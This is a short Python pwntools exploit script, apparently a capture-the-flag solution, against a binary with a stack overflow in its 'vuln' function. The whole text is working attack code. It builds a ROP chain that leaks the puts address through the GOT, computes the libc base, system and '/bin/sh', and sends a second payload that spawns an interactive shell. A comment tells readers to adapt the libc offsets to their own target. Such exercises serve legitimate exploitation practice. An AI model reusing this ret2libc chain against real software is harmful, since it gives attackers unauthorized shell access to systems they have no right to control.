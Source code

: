 ```python
elf = ELF(fileName)

# bin
bin_func_main = elf.sym['main']
bin_func_vuln = elf.sym['vuln']
bin_puts_plt = elf.sym['puts']
bin_puts_got = elf.got['puts']
bin_pop_rdi_ret = 0x4012A3
bin_ret = 0x4012A4

# libc
# libc6-amd64_2.11.1-0ubuntu7.12_i386 根据自己的情况来修改
libc_puts = 0x77820
libc_system = 0x4c330
libc_str_bin_sh = 0x196031

def logger(msg, value=None, type='info'):  # type True for value
    if type == 'info':
        log.info(
            '================================ {} ================================\n'.format(msg))
    else:
        log.success('# {} => {}\n'.format(msg, value))

gdbscript = '''
b *vuln+36
b *vuln+55
c
c
c
'''
# gdb.attach(p, gdbscript=gdbscript)

# leak_libc
logger('leak_libc')
payload = b'a' * (0xb + 0x8) + p64(bin_pop_rdi_ret) + \
    p64(bin_puts_got) + p64(bin_puts_plt) + p64(bin_func_vuln)
p.sendlineafter(b'input sth:\n', payload)
p.recvuntil('\x0a')

leak_puts_got = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = leak_puts_got - libc_puts
libc_system = libc_base + libc_system
libc_str_bin_sh = libc_base + libc_str_bin_sh

logger('libc_base', hex(libc_base), 'success')
logger('leak_puts_got', hex(leak_puts_got), 'success')
logger('libc_system', hex(libc_system), 'success')
logger('libc_str_bin_sh', hex(libc_str_bin_sh), 'success')

# rop
logger('rop')
payload = b'b' * (0xb + 0x8) + p64(bin_ret) + p64(bin_pop_rdi_ret) + p64(libc_str_bin_sh) + p64(libc_system)
p.sendlineafter(b'input sth:\n', payload)
p.interactive()
```
